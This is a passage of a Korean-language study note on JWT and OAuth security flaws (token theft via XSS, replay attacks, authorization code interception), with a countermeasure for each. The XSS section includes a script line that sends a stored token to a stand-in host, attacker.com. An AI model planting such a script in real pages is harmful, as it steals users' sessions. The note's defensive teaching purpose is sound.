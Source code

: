 3. **토큰 저장 위치에 따른 보안 문제 (XSS / LocalStorage 취약점)**
    - **취약점 설명**
        - 브라우저 환경에서 **JWT를 LocalStorage에 저장하면 XSS(Cross-Site Scripting) 공격에 노출**될 수 있음.
        - 만약 공격자가 `document.localStorage.getItem('token')`으로 접근하면, **사용자의 JWT를 탈취**할 수 있음.
    - **공격 예시 (XSS를 통한 JWT 탈취)**

        ```html
        <script>
          fetch('https://attacker.com/steal?token=' + localStorage.getItem('token'));
        </script>
        ```

      ⇒ 공격자가 악성 스크립트를 삽입하면, 사용자의 토큰을 가로채 **임의로 API 요청**을 보낼 수 있음.

    - **대책**
        - **JWT 저장 위치를 LocalStorage가 아닌 Secure Cookie 사용** (`HttpOnly, Secure 설정`)
        - **Content Security Policy (CSP) 설정으로 XSS 방지**
        - **XSS 필터링 및 입력 값 검증 (예:** `sanitize-html` **라이브러리 사용)**

4. **토큰 탈취 후 재사용 (Replay Attack)**
    - **취약점 설명**
        - JWT는 기본적으로 **Stateless(서버가 상태를 저장하지 않음)** 이므로, 한 번 탈취된 토큰은 계속 사용될 수 있음.
        - 공격자는 **토큰을 탈취한 후 동일한 요청을 반복해서 수행하는 Replay Attack을 시도**할 수 있음.
    - **공격 예시**
        1. 공격자가 JWT를 탈취 (`Bearer eyJhbGciOiJIUzI1Ni...`)
        2. 탈취된 토큰을 이용해 API 요청을 반복적으로 전송

        ```html
        GET /user/profile HTTP/1.1
        Authorization: Bearer eyJhbGciOiJIUzI1Ni...
        ```

    - **대책**
        - **토큰에 `jti`(JWT ID) 클레임 추가** → 고유한 ID를 사용하여 한 번 사용된 토큰을 재사용 방지
        - **토큰 사용 시, IP 및 User-Agent 검사** → 토큰을 발급받은 환경과 다르면 차단
        - **Refresh Token을 짧게 설정하고, Access Token은 더 짧게 유지 (10~30분 이내)**

5. **OAuth 인증 코드 탈취 (Authorization Code Interception Attack)**
    - **취약점 설명**
        - OAuth 2.0에서는 **Authorization Code(인가 코드)** 를 발급받아 Access Token으로 교환하는 과정이 있음.
        - 이 과정에서 공격자가 **인가 코드를 가로채 Access Token을 탈취**할 가능성이 있음.
    - **공격 예시**
        1. 사용자가 OAuth 로그인 (`https://auth.server.com/oauth/authorize?client_id=abc123`)
        2. 공격자가 네트워크 패킷을 감청하여 `code=xyz456` 을 가로챔
        3. 공격자는 `xyz456`을 이용해 Access Token 발급 요청 (`/oauth/token`)
        4. 공격자가 사용자의 계정에 접근 가능
    - **대책**
        - **PKCE(Proof Key for Code Exchange) 사용** → `code_verifier`와 `code_challenge`를 추가하여 보안 강화
        - **HTTPS 강제 사용** → OAuth 요청 및 응답이 암호화되지 않으면 공격자가 가로챌 수 있음
        - **인가 코드의 짧은 만료 시간 설정** → 탈취되더라도 빠르게 무효화
